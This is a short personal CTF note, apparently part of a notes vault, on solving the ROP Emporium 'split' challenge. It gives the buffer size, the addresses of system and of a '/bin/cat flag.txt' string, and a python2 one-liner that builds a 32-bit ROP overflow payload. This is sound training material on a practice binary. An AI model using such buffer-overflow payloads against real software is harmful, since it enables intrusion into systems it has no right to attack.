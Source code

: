 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[split]]
# Contents
***
- Task Description
- 32 bit

## Task Description
***
The elements that allowed you to complete ret2win are still present, they've just been split apart.  
Find them and recombine them using a short ROP chain.

## 32 bit
***
File Checks
32 bit ELF with no canaries
To get the flag we need to create a chain where it first calls system and then /bin/cat flag.txt
/bin/cat flag.txt has a memory addr of 0x804a030
and for the system call it is 0x0804861a
The buffer size is 44 bytes

Generate the payload
```bash
python2 -c 'print "A"*44 +"\x1a\x86\x04\x08"+"\x30\xa0\x04\x08"' > payload
```

Then pass it in and get the flag
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 11-10-2022

Last modified date: Tuesday 11th October 2022
***

